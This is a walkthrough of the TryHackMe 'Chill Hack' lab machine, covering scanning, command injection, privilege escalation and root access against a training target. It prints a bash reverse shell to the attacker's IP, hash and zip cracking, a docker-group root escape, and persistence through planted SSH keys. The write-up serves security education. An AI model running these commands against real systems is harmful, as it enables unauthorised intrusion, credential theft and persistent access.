# Chill Hack


---

## Intro

| Room Info           |                  |
| :------------------ | -------------------------------------------------- |
| 🔗 Name              | [Chill Hack](https://tryhackme.com/room/chillhack) |
| 🎯 Target IP         | `10.10.141.41`                                     |
| 📈 Difficulty level  | 🟢Easy                                              |
| 💲 Subscription type | Free                                               |
| 🐧 OS                | Linux                                              |

---

## Recon

```bash
su
echo "10.10.141.41 chillhack.thm" >> /etc/hosts

# At the end of the room
# To clean up the last line from the /etc/hosts file
sed -i '$ d' /etc/hosts
```

Start Reconnaissance

```bash
mkdir thm/chillhack
cd thm/chillhack
nmap chillhack.thm
    21/tcp open  ftp
    22/tcp open  ssh
    80/tcp open  http

nmap -sV -sC -Pn -O -oA chillhack chillhack.thm
```

```bash
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.18.65.48
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 09f95db918d0b23a822d6e768cc20144 (RSA)
|   256 1bcf3a498b1b20b02c6aa551a88f1e62 (ECDSA)
|_  256 3005cc52c66f6504860f7241c8a439cf (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Game Info
```

Enumerate Web server directories

```bash
gobuster dir -u http://chillhack.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

```bash
/images (Status: 301) [Size: 315] [--> http://chillhack.thm/images/]
/css 	(Status: 301) [Size: 312] [--> http://chillhack.thm/css/]
/js 	(Status: 301) [Size: 311] [--> http://chillhack.thm/js/]
/fonts  (Status: 301) [Size: 314] [--> http://chillhack.thm/fonts/]
/secret (Status: 301) [Size: 315] [--> http://chillhack.thm/secret/]
```

Navigate to

- `http://chillhack.thm/secret/`
- input a command. It works, a Command Injection vulnerability is present in the web server.



---

## Exploitation

```bash
# Open a listener on the Kali machine
nc -nvlp 3333
```

Input a command to get a reverse shell

```bash
/bin/bash -c '/bin/bash -i >& /dev/tcp/10.18.65.48/3333 0>&1'
```



Get a **Full TTY** shell on the server

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Background CTRL+Z
stty raw -echo && fg
# ENTER
export SHELL=/bin/bash
export TERM=screen
stty rows 36 columns 157
reset
```

```bash
sudo -l
```



`/home/apaar/.helpline.sh` file can be run by the `www-data` user as user **`apaar`**

```bash
ls -lah /home/apaar/ 
```

```bash
-rw------- 1 apaar apaar    0 Oct  4  2020 .bash_history
-rw-r--r-- 1 apaar apaar  220 Oct  3  2020 .bash_logout
-rw-r--r-- 1 apaar apaar 3.7K Oct  3  2020 .bashrc
drwx------ 2 apaar apaar 4.0K Oct  3  2020 .cache
drwx------ 3 apaar apaar 4.0K Oct  3  2020 .gnupg
-rwxrwxr-x 1 apaar apaar  286 Oct  4  2020 .helpline.sh
-rw-r--r-- 1 apaar apaar  807 Oct  3  2020 .profile
drwxr-xr-x 2 apaar apaar 4.0K Oct  3  2020 .ssh
-rw------- 1 apaar apaar  817 Oct  3  2020 .viminfo
-rw-rw---- 1 apaar apaar   46 Oct  4  2020 local.txt
```

```bash
cat /etc/passwd
```



Get a shell as user **`apaar`**

```bash
sudo -u apaar /home/apaar/.helpline.sh
# in the messagte input:
/usr/bin/script -qc /bin/bash /dev/null

cd
cat /home/apaar/local.txt
{USER****************************************
```



---

## Privilege Escalation

```bash
ss -tnl
    Local Address:Port
        127.0.0.1:9001
        127.0.0.1:3306
    127.0.0.53%lo:53
          0.0.0.0:22
                *:80
                *:21
             [::]:22
```

Use SSH Port Forwarding to access the local open port `9001`.

Stabilize with a SSH connection by generating a SSH key and put it into the `apaar`'s user `authorized_keys`

```bash
# Kali
ssh-keygen -f apaar_rsa
chmod 600 apaar_rsa
cat apaar_rsa.pub

# Back to the Chillhack box "apaar" shell
cd /home/apaar/.ssh
echo "<apaar_rsa.pub_Output>" >> authorized_keys

echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC8g6f2IrM5xN6SdfgZs1c7O76SZIQSIKjQ7BjYofmLSxRFWG/yXvexxidE+Ka+qV1HzPaCbOZ8TTowMRnonni699Isnx8/Aljs4vpHgOBJpf9jXzjlh4mjO0SgflfvecnTPIVz4ISn2UviCOm2XnlzJeFdcNm8Ej71+A4MKoPDWp9xSaLISebR28Y3phWvsuyBDt35Nc9Je1nKc9Oc7zROmSomQTJCsXBTRDqDLaImAXwvXMXbfMDPvZRXD4Vag/RusBqmlSaKNpCg+4ggDn1jELMVRWI0aFSMC4iRHA4tENmwM/D+gBu6/EUemuYhYJcaH0dPvVpri5/TXy8k418uJMJWRbh66Gy7pUG44U7jNu4M1OWUJNOw3fcUDRo6udz4/XgDDCBAICXK9b38Ar3ykH+nPuBW1GrivOq+iiXAILJ9yPTdDjirUcrTaEze3Eq/r/vQO5kvMe9wWhUtr87EFDSuFfZt/F0asKFjCbQ/Xk8a4hUfC+FC8jnik94KiQ8=" >> /home/apaar/.ssh/authorized_keys

# Try the SSH port forwarding with the key
ssh -L 9001:127.0.0.1:9001 -i apaar_rsa apaar@chillhack.thm
```



Navigate to

- `http://chillhack.thm:9001/`



```bash
ls -lah /var/www/files/
cat account.php
cat hacker.php
cat index.php
# MySQL root password !@m+her00+@db
su
# the password does NOT work for "root" user
```





> This part can be skipped directly to SCP download of the necessary **`hacker-with-laptop_23-2147985341.jpg`** file.
>
> Enumerate MySQL with `root`:`!@m+her00+@db`
>
> ```bash
> mysql -u root -p webportal
> 
> SHOW tables;
> SELECT * from users;
> ```
>
> ```bash
> +----+-----------+----------+-----------+----------------------------------+
> | id | firstname | lastname | username  | password                         |
> +----+-----------+----------+-----------+----------------------------------+
> |  1 | Anurodh   | Acharya  | Aurick    | 7e53614ced3640d5de23f111806cc4fd |
> |  2 | Apaar     | Dahal    | cullapaar | 686216240e5af30df0501e53c789a649 |
> +----+-----------+----------+-----------+----------------------------------+
> ```
>
> - Check the two password strings
>
> ```bash
> hash-identifier 7e53614ced3640d5de23f111806cc4fd
> hash-identifier 686216240e5af30df0501e53c789a649
> # Possible Hash is MD5
> ```
>
> - Check them on [https://crackstation.net/](https://crackstation.net/)
>
> ```bash
> Hash	Type	Result
> 7e53614ced3640d5de23f111806cc4fd	md5	masterpassword
> 686216240e5af30df0501e53c789a649	md5	dontaskdonttell
> ```
>
> > 📌 Login credentials are:
> >
> >  `Aurick`:`masterpassword`
> >
> > `cullapaar`:`dontaskdonttell`
>
> Login to the portal `http://chillhack.thm:9001/`. The successful login redirect to `hacker.php` page where there is a hacker with laptop `.jpg` file that needs to be downloaded.
>
> 



Download the `hacker-with-laptop_23-2147985341.jpg` file using `scp`

```bash
scp <USER>@<TARGET_IP>:~/.ssh/id_rsa .

scp -i apaar_rsa apaar@chillhack.thm:/var/www/files/images/hacker-with-laptop_23-2147985341.jpg .
```

Check the image file with [`steghide`](https://www.kali.org/tools/steghide/)

```bash
steghide info hacker-with-laptop_23-2147985341.jpg

    "hacker-with-laptop_23-2147985341.jpg":
      format: jpeg
      capacity: 3.6 KB
    Try to get information about embedded data ? (y/n) y
    Enter passphrase: 
      embedded file "backup.zip":
        size: 750.0 Byte
        encrypted: rijndael-128, cbc
        compressed: yes
```

```bash
steghide extract -sf hacker-with-laptop_23-2147985341.jpg

unzip backup.zip
# Password necessary
```

### Crack Zip

```bash
zip2john backup.zip > backupzip.hash
john backupzip.hash --wordlist=/usr/share/wordlists/rockyou.txt

unzip backup.zip
# use "pass1word"
```



Check the unzipped file

```bash
cat source_code.php
```



Decrypt the base64 hash

```bash
echo "IWQwbnRLbjB3bVlwQHNzdzByZA==" | base64 -d
```

> 📌 `anurodh`:`!d0ntKn0wmYp@ssw0rd`

```bash
# In the "apaar" shell session
su anurodh
id
```



`anurodh` is in the **docker** group. Spawn a `root` shell by using a `docker` command.

- Check it from the [GTFOBins - Docker](https://gtfobins.github.io/gtfobins/docker/) list

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
ls /root
cat /root/proof.txt
{ROOT****************************************
```





---

## Persistence (extra)

```bash
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC8g6f2IrM5xN6SdfgZs1c7O76SZIQSIKjQ7BjYofmLSxRFWG/yXvexxidE+Ka+qV1HzPaCbOZ8TTowMRnonni699Isnx8/Aljs4vpHgOBJpf9jXzjlh4mjO0SgflfvecnTPIVz4ISn2UviCOm2XnlzJeFdcNm8Ej71+A4MKoPDWp9xSaLISebR28Y3phWvsuyBDt35Nc9Je1nKc9Oc7zROmSomQTJCsXBTRDqDLaImAXwvXMXbfMDPvZRXD4Vag/RusBqmlSaKNpCg+4ggDn1jELMVRWI0aFSMC4iRHA4tENmwM/D+gBu6/EUemuYhYJcaH0dPvVpri5/TXy8k418uJMJWRbh66Gy7pUG44U7jNu4M1OWUJNOw3fcUDRo6udz4/XgDDCBAICXK9b38Ar3ykH+nPuBW1GrivOq+iiXAILJ9yPTdDjirUcrTaEze3Eq/r/vQO5kvMe9wWhUtr87EFDSuFfZt/F0asKFjCbQ/Xk8a4hUfC+FC8jnik94KiQ8=" >> /root/.ssh/authorized_keys 
```

```bash
ssh -i apaar_rsa root@chillhack.thm
```



------

